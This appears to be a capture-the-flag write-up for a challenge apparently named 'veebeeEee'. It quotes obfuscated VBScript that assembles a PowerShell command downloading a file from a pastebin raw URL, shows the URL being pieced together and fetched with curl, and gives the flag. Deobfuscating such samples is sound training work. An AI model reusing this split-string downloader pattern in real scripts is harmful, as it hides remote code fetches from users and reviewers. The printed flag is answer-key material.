 ```vb
Reqest0 = "if (!(Test-Path $f)){Invoke-WebRequest '"''''''''''''''''al37ysoeopm'al37ysoeopm
Reqest1 = "https://past"''''''''''''''''al37ysoeopm'al37ysoeopm
Reqest2 = "ebin.com/raw"''''''''''''''''al37ysoeopm'al37ysoeopm
Reqest3 = "/SiYGwwcz"''''''''''''''''al37ysoeopm'al37ysoeopm
Reqest4 = "' -ou"''''''''''''''''al37ysoeopm'al37ysoeopm
Reqest5 = "tfile $f  };"''''''''''''''''al37ysoeopm'al37ysoeopm
Reqest = Reqest0 + Reqest1 + Reqest2 +  Reqest3 + Reqest4 + Reqest5''''''''''''''''al37ysoeopm'al37ysoeopm
```

It is concatenating the pieces of a PowerShell script that will make a web request on what looks like a `pastebin url`. We can put the pieces of the url together.

We get `https://pastebin.com/raw/SiYGwwcz`

Accessing the `url` we get our flag.

```bash
➜  veebeeEee curl https://pastebin.com/raw/SiYGwwcz
<!-- flag{ed81d24958127a2adccfb343012cebff} -->%         
➜  veebeeEee
```

Flag: `flag{ed81d24958127a2adccfb343012cebff}`


